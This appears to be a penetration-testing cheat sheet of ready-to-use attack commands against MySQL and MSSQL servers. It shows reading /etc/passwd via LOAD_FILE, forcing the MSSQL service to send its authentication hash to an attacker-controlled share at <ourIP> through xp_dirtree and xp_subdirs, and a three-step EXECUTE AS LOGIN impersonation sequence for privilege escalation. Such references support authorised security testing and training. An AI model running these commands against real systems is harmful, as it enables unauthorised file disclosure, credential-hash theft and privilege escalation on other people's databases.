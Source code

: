 ## attacking common services - mysql - read local files (with configuration enabled)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
select LOAD_FILE("/etc/passwd");
```

## attacking common services - mssql - capture service hash/XP_DIRTREE Hash Stealing (turn on responder/impacket-smbserver before)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
EXEC master..xp_dirtree '\\<ourIP>\share\'
go
```

## attacking common services - mssql - capture service hash/XP_SUBDIRS Hash Stealing (turn on responder/impacket-smbserver before)
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
EXEC master..xp_subdirs '\\<ourIP>\share\'
go
```

## attacking common services - mssql - impersonate users
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
Step 1 identify users:

SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
go

Step 2 verifying our current user and role. 0 = not sysadmin

SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go

Step 3 impersonate user (execute on master DB - USE MASTER command):

EXECUTE AS LOGIN = '<user2impersonate>'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
```

